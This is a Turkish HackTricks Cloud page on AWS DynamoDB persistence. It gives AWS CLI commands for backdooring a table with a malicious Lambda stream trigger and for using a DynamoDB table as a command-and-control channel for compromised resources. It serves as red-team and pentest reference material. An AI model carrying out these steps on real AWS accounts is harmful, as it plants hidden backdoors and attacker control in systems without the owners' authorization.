 # AWS - DynamoDB Persistence

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>

### DynamoDB

Daha fazla bilgi için erişim sağlayın:

{% content-ref url="https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlar%C4%B1/aws-dynamodb-enum.md" %}
[https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanları/aws-dynamodb-enum.md](https://github.com/carlospolop/hacktricks-cloud/blob/tr/pentesting-cloud/aws-security/aws-hizmetleri/aws-veritabanlar%C4%B1/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Lambda Arka Kapı ile DynamoDB Tetikleyicileri

DynamoDB tetikleyicilerini kullanarak, saldırgan bir tabloya kötü niyetli bir Lambda işlevi atayarak **gizli bir arka kapı** oluşturabilir. Lambda işlevi, bir öğe eklenir, değiştirilir veya silindiğinde tetiklenebilir, bu da saldırganın AWS hesabı içinde keyfi kodu yürütmesine olanak tanır.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Kalıcılığı sürdürmek için saldırgan, DynamoDB tablosunda öğeler oluşturabilir veya değiştirebilir, bu da kötü niyetli Lambda işlevini tetikler. Bu, saldırganın Lambda işleviyle doğrudan etkileşim olmaksızın AWS hesabı içinde kodu yürütmesine olanak tanır.

### DynamoDB Bir C2 Kanalı Olarak

Bir saldırgan, komutları içeren öğeler oluşturarak ve bu komutları almak ve yürütmek için etkilenmiş örnekler veya Lambda işlevleri kullanarak DynamoDB tablosunu bir **komut ve kontrol (C2) kanalı** olarak kullanabilir.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```

Kompromize edilen örnekler veya Lambda fonksiyonları, yeni komutları kontrol etmek için C2 tablosunu periyodik olarak kontrol edebilir, bunları gerçekleştirebilir ve isteğe bağlı olarak sonuçları tabloya rapor edebilir. Bu, saldırganın kompromize edilen kaynaklar üzerinde süreklilik ve kontrol sağlamasını sağlar.

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'da takip edin.**
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
